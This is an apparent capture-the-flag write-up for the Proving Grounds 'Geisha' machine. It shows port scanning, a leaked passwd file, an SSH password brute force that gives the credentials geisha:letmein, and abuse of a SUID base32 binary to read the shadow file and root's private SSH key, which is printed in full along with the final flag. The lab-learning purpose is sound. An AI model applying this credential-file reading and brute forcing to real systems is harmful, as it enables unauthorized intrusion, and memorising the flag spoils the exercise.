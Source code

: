 ```yaml
---
title: Geisha
categories: [Proving Grounds Play]
tags: [Lateral Movement, Password Bruteforce, SUIDs, base32, PrivEsc]
image:
  path: /Vulnhub-Files/img/Geisha/Untitled%201.png
  alt:  Geisha Machine 🖥️
---
```



### Lets check the IP Now ⤵️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled.png)

```bash
IP : 192.168.249.133
```

## Port Scan Results ⬇️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Giesha]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.133                                              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 06:00 EDT
Nmap scan report for 192.168.249.133
Host is up (0.00074s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1bf25dcd8913f249009f8cf9eba2a20c (RSA)
|   256 315a652eab0f59abe0333a0cfc49e05f (ECDSA)
|_  256 c6a735149613f8de1ee2bce7c7668bac (ED25519)
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Geisha
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/http LiteSpeed httpd
|_http-title: Geisha
| ssl-cert: Subject: commonName=geisha/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-09T14:01:34
|_Not valid after:  2022-05-09T14:01:34
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
7125/tcp open  http     nginx 1.17.10
|_http-server-header: nginx/1.17.10
|_http-title: Geisha
8088/tcp open  http     LiteSpeed httpd
|_http-title: Geisha
|_http-server-header: LiteSpeed
9198/tcp open  http     SimpleHTTPServer 0.6 (Python 2.7.16)
|_http-title: Geisha
|_http-server-header: SimpleHTTP/0.6 Python/2.7.16
MAC Address: 00:0C:29:47:3A:B7 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ➡️

Now That I have 4 http ports and 1 http port with ssl certificate So All have a common type/Interface of web page ⤵️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%201.png)

Now with `feroxbuster` as a Directory Traversal tool I found some file from port `7125` file name `passwd`.

```bash
└─$ cat passwd                                                                                                             
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
geisha:x:1000:1000:geisha,,,:/home/geisha:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lsadm:x:998:1001::/:/sbin/nologin
```

As I got a username as `geisha` so lets try ssh brute force with hydra ➡️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%202.png)

```bash
Credentials ➡️
geisha  :  letmein
```

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%203.png)

Now lets find SUIDs commands ➡️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%204.png)

So lets run it ⤵️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%205.png)

I have got a shadow file but I cant read it so lets use above command to read it .

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%206.png)

Now lets run `base32 shadow | base32 --decode` .

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%207.png)

Now lets try something else like accessing the id_rsa from root .

```bash
geisha@geisha:/$ base32 /root/.ssh/id_rsa | base32 --decode
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA43eVw/8oSsnOSPCSyhVEnt01fIwy1YZUpEMPQ8pPkwX5uPh4
OZXrITY3JqYSCFcgJS34/TQkKLp7iG2WGmnno/Op4GchXEdSklwoGOKNA22l7pX5
89FAL1XSEBCtzlrCrksvfX08+y7tS/I8s41w4aC1TDd5o8c1Kx5lfwl7qw0ZMlbd
5yeAUhuxuvxo/KFqiUUfpcpoBf3oT2K97/bZr059VU8T4wd5LkCzKEKmK5ebWIB6
fgIfxyhEm/o3dl1lhegTtzC6PtlhuT7ty//mqEeMuipwH3ln61fHXs72LI/vTx26
TSSmzHo8zZt+/lwrgroh0ByXbCtDaZjo4HAFfQIDAQABAoIBAQCRXy/b3wpFIcww
WW+2rvj3/q/cNU2XoQ4fHKx4yqcocz0xtbpAM0veIeQFU0VbBzOID2V9jQE+9k9U
1ZSEtQJRibwbqk1ryDlBSJxnqwIsGrtdS4Q/CpBWsCZcFgy+QMsC0RI8xPlgHpGR
Y/LfXZmy2R6E4z9eKEYWlIqRMeJTYgqsP6ZR4SOLuZS1Aq/lq/v9jqGs/SQenjRb
8zt1BoqCfOp5TtY1NoBLqaPwmDt8+rlQt1IM+2aYmxdUkLFTcMpCGMADggggtnR+
10pZkA6wM8/FlxyAFcNwt+H3xu5VKuQKdqTfh1EuO3c34UmuS1qnidHO1rYWOhYO
jceQYzoBAoGBAP/Ml6cp2OWqrheJS9Pgnvz82n+s9yM5raKNnH57j0sbEp++eG7o
2po5/vrLBcCHGqZ7+RNFXDmRBEMToru/m2RikSVYk8QHLxVZJt5iB3tcxmglGJj/
cLkGM71JqjHX/edwu2nNu14m4l1JV9LGvvHR5m6uU5cQvdcMTsRpkuxdAoGBAOOl
THxiQ6R6HkOt9w/WrKDIeGskIXj/P/79aB/2p17M6K+cy75OOYzqkDPENrxK8bub
RaTzq4Zl2pAqxvsv/CHuJU/xHs9T3Ox7A1hWqnOOk2f0KBmhQTYBs2OKqXXZotHH
xvkOgc0fqRm1QYlCK2lyBBM14O5Isud1ZZXLUOuhAoGBAIBds1z36xiV5nd5NsxE
1IQwf5XCvuK2dyQz3Gy8pNQT6eywMM+3mrv6jrJcX66WHhGd9QhurjFVTMY8fFWr
edeOfzg2kzC0SjR0YMUIfKizjf2FYCqnRXIUYrKC3R3WPlx+fg5CZ9x/tukJfUEQ
65F+vBye7uPISvw3+O8n68shAoGABXMyppOvrONjkBk9Hfr0vRCvmVkPGBd8T71/
XayJC0L6myG02wSCajY/Z43eBZoBuY0ZGL7gr2IG3oa3ptHaRnGuIQDTzQDj/CFh
zh6dDBEwxD9bKmnq5sEZq1tpfTHNrRoMUHAheWi1orDtNb0Izwh0woT6spm49sOf
v/tTH6ECgYEA/tBeKSVGm0UxGrjpQmhW/9Po62JNz6ZBaTELm3paaxqGtA+0HD0M
OuzD6TBG6zBF6jW8VLQfiQzIMEUcGa8iJXhI6bemiX6Te1PWC8NMMULhCjObMjCv
bf+qz0sVYfPb95SQb4vvFjp5XDVdAdtQov7s7XmHyJbZ48r8ISHm98s=
-----END RSA PRIVATE KEY-----
```

Now lets create id_rsa file in /tmp directory and give permission 600 to it , then execute it as ssh as root .

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%208.png)

Now I am root cool !!

```bash
root@geisha:~# cat flag.txt
Flag{Sun_CTF_220_5_G31sha}
root@geisha:~#
```